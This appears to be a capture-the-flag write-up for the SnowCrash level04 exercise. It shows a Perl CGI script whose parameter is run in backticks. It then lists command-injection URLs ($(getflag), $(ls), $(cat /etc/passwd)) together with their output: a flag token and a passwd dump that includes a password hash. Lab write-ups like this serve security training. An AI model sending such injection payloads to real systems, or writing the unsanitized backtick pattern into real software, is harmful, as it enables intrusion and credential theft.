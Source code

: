 # level04

level04@SnowCrash:~$ ls
level04.pl
level04@SnowCrash:~$ cat level04.pl 
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));


=> a CGI perl at port 4747

http://192.168.182.137:4747/level04.pl?x=$(getflag)

Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap

http://192.168.182.137:4747/level04.pl?x=$(ls)

give us:

level04.pl


http://192.168.182.137:4747/level04.pl?x=$(cat%20/etc/passwd)

give us:

root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/bin/sh bin:x:2:2:bin:/bin:/bin/sh sys:x:3:3:sys:/dev:/bin/sh sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/bin/sh man:x:6:12:man:/var/cache/man:/bin/sh lp:x:7:7:lp:/var/spool/lpd:/bin/sh mail:x:8:8:mail:/var/mail:/bin/sh news:x:9:9:news:/var/spool/news:/bin/sh uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh proxy:x:13:13:proxy:/bin:/bin/sh www-data:x:33:33:www-data:/var/www:/bin/sh backup:x:34:34:backup:/var/backups:/bin/sh list:x:38:38:Mailing List Manager:/var/list:/bin/sh irc:x:39:39:ircd:/var/run/ircd:/bin/sh gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh nobody:x:65534:65534:nobody:/nonexistent:/bin/sh libuuid:x:100:101::/var/lib/libuuid:/bin/sh syslog:x:101:103::/home/syslog:/bin/false messagebus:x:102:106::/var/run/dbus:/bin/false whoopsie:x:103:107::/nonexistent:/bin/false landscape:x:104:110::/var/lib/landscape:/bin/false sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin level00:x:2000:2000::/home/user/level00:/bin/bash level01:x:2001:2001::/home/user/level01:/bin/bash level02:x:2002:2002::/home/user/level02:/bin/bash level03:x:2003:2003::/home/user/level03:/bin/bash level04:x:2004:2004::/home/user/level04:/bin/bash level05:x:2005:2005::/home/user/level05:/bin/bash level06:x:2006:2006::/home/user/level06:/bin/bash level07:x:2007:2007::/home/user/level07:/bin/bash level08:x:2008:2008::/home/user/level08:/bin/bash level09:x:2009:2009::/home/user/level09:/bin/bash level10:x:2010:2010::/home/user/level10:/bin/bash level11:x:2011:2011::/home/user/level11:/bin/bash level12:x:2012:2012::/home/user/level12:/bin/bash level13:x:2013:2013::/home/user/level13:/bin/bash level14:x:2014:2014::/home/user/level14:/bin/bash flag00:x:3000:3000::/home/flag/flag00:/bin/bash flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash flag02:x:3002:3002::/home/flag/flag02:/bin/bash flag03:x:3003:3003::/home/flag/flag03:/bin/bash flag04:x:3004:3004::/home/flag/flag04:/bin/bash flag05:x:3005:3005::/home/flag/flag05:/bin/bash flag06:x:3006:3006::/home/flag/flag06:/bin/bash flag07:x:3007:3007::/home/flag/flag07:/bin/bash flag08:x:3008:3008::/home/flag/flag08:/bin/bash flag09:x:3009:3009::/home/flag/flag09:/bin/bash flag10:x:3010:3010::/home/flag/flag10:/bin/bash flag11:x:3011:3011::/home/flag/flag11:/bin/bash flag12:x:3012:3012::/home/flag/flag12:/bin/bash flag13:x:3013:3013::/home/flag/flag13:/bin/bash flag14:x:3014:3014::/home/flag/flag14:/bin/bash
